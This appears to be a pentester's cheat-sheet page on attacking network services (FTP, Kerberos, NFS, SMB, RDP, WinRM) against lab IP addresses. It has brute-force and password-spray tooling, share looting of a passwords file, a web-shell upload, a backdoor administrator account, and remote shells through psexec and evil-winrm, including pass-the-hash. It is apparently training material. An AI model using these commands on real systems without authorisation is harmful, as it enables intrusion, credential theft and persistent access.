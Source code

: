 ```yaml
---
title: Services
description: How to pentest different services.
---
```


## FTP (port 21)

`nmap -p 21 --script=ftp-anon 10.10.174.58`

## Kerberos (port 88)

### Enumeration & bruteforce

[Kerbrute](https://github.com/ropnop/kerbrute) has four main commands:

- bruteuser - Bruteforce a single user's password from a wordlist
- bruteforce - Read username:password combos from a file or stdin and test them
- passwordspray - Test a single password against a list of users
- userenum - Enumerate valid domain usernames via Kerberos


## RPC / NFS (port 111, 2049, 20048)

Interesting files : `/etc/nfs.conf`, `/etc/fstab` and `/etc/exports`

```bash
$ rpcinfo -p | grep nfs

100003    3   tcp   2049  nfs
100003    4   tcp   2049  nfs
100227    3   tcp   2049  nfs_acl
```

Nmap NSE :

```bash
$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.220.222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:48 CET
Nmap scan report for 10.10.220.222
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Show NFS mount

```bash
$ showmount -e 10.10.200.32
Export list for 10.10.200.32:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
$ sudo mkdir /mnt/nfs1
$ sudo mount -t nfs -o rw 10.10.200.32:/home/ubuntu/sharedfolder /mnt/nfs1
$ cd /mnt/nfs1
...
```

Mount NFS partition :

```
$ sudo mkdir /mnt/ntfs1
$ sudo mount -t nfs 10.10.220.222:/var /mnt/ntfs1
$ cd /mnt/ntfs1
$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Samba (port 139, 445)

### List shares

```bash
$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
[...]
Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.220.222\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
[...]
```

```bash
$ crackmapexec smb 10.10.86.204 --shares
```

```
$ smbclient -L 10.10.86.204
Password for [MYGROUP\xanhacks]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

### Download / upload files

```bash
$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
Password for [MYGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4932712 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> mput shell.aspx
Put file shell.aspx? y
putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
```

### Recursive download

Recursively download all the files of the share using `smbget -R` :

```bash
$ smbget -R smb://10.10.220.222/anonymous
Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
Using workgroup WORKGROUP, user xanhacks
smb://10.10.220.222/anonymous/log.txt
Downloaded 11.95kB in 1 seconds
```

### Bruteforce SMB

```
$ cme smb 10.10.10.182 -u users.lst -p passwords.list
[...]
```

### Shell over SMB (psexec.py)

How [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) works ?

1. Establishes an SMB network connection to a target system using administrator credentials
2. Pushes a copy of a receiver process named PSEXESVC.EXE to the target system’s ADMIN$ share
3. Launches PSEXESVC.EXE, which sends input and output to a named pipe

```bash
$ cme smb 10.10.10.182 -u administrator -p 'pass123'
SMB ... (Pwn3d!)
$ psexec.py administrator:pass123@10.10.10.182
[...]
C:\Windows\system32>
```

## CIFS (port 445)

CIFS (Common Internet File System) is a protocol that gained popularity around the year 2000, as vendors worked to establish an Internet Protocol-based file-sharing protocol.

CIFS is now considered obsolete, because most modern data storage systems use the more robust Server Message Block (SMB) 2.0 and 3.0 file-sharing protocols, which were major upgrades to CIFS.

### Mount partition

```bash
$ mkdir /mnt/data
$ sudo mount -t cifs -o 'user=r.thompson,password=admin123' //10.10.10.182/Data /mnt/data
```

## RDP (port 3389)

Windows user need to be in the `Remote Desktop Users` or `Administrators` group to use RDP.

```powershell
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

RDP using `rdesktop` :

```bash
$ rdesktop -u <username> -p <password> <ip>
```

GUI using [remmina](https://remmina.org/).

## WinRM (port 5985)

Windows user need to be in the `Remote Management Users` group to use WinRM.

You can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to obtain a remote shell.

To check :

```bash
$ cme winrm 10.200.10.196 -u administrator -p 'pass123'
WINRM ... (Pwn3d!)
```

Gain shell :

```bash
$ evil-winrm -i 10.200.10.196 -u administrator -p 'admin123'

$ evil-winrm -i 10.200.10.196 -u administrator -H '37db630168e5f82aafa8461e05c6bbd1'
```
